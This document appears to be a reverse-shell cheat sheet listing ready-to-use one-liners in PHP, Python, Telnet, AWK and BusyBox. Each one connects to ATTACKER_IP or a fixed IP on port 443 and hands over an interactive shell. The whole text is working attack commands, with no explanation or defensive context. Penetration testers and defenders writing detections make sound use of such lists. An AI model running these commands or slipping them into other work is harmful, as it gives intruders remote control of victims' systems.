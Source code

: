 ### PHP
E.g. PHP reverse shell using the exec function
```
php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");'
```
E.g. PHP reverse shell using the shell_exec function
```
php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'
```
E.g. PHP reverse shell using the system function
```
php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");'
```
E.g. PHP reverse shell using the passthru function
```
php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");'
```
E.g. PHP reverse shell using the popen function
```
php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3", "r");'
```

### Python
E.g. Python reverse shell by exporting environmental variables
```
export RHOST="ATTACKER_IP"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```
E.g. Python reverse shell using the subprocess module
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.99.209",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
E.g. Short Python reverse shell
```
python -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```

### Others
E.g. Telnet
```
TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP443 0<$TF | sh 1>$TF
```
E.g. AWK
```
awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```
E.g. BusyBox
```
busybox nc ATTACKER_IP 443 -e sh
```
